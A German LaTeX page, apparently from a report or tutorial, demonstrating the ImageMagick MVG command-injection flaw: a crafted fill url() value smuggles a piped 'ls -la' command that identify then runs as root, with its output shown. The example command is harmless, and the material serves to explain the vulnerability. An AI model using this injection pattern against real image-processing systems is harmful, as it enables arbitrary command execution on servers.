 \newpage
\subsection{Erstes Beispiel: Ausgabe der Dateien im aktuellen Ordner}\label{subsec:erstes-beispiel:-ausgabe-der-dateien-im-aktuellen-ordner}

Es wird eine MVG Datei erstellt und folgend befüllt.

\vspace{5mm}

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei erstellen,label={lst:lstlisting}]
> vim test1.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}


Besonders wichtig ist hier Zeile vier.
In der url() Methode, wird per Pipe ein zweiter Befehl, nämlich ls -la mitgegeben, welcher die Dateien des aktuellen Verzeichnis auflistet.\\


Per identify wird nun im Namen des aktuell angemeldeten Users folgende Ausgabe erzeugt:

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei identify,label={lst:lstlisting}]
> identify test1.mvg
total 16
drwxr-xr-x 2 root root 4096 Dec 16 08:21 .
drwx------ 8 root root 4096 Dec 16 08:20 ..
-rw-r--r-- 1 root root  144 Dec 16 08:21 test1.mvg
identify: unrecognized color `https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la' @ warning/color.c/GetColorCompliance/1046.
identify: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
test1.mvg MVG 640x480 640x480+0+0 16-bit sRGB 144B 0.000u 0:00.000
identify: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
\end{lstlisting}
\vspace{5mm}


⇒ Das eigentliche identifizieren des Bildes schlägt zwar fehl, es kann aber gut gesehen werden, dass vorher im Hintergrund der hinterlegte Command ausgeführt wurde.
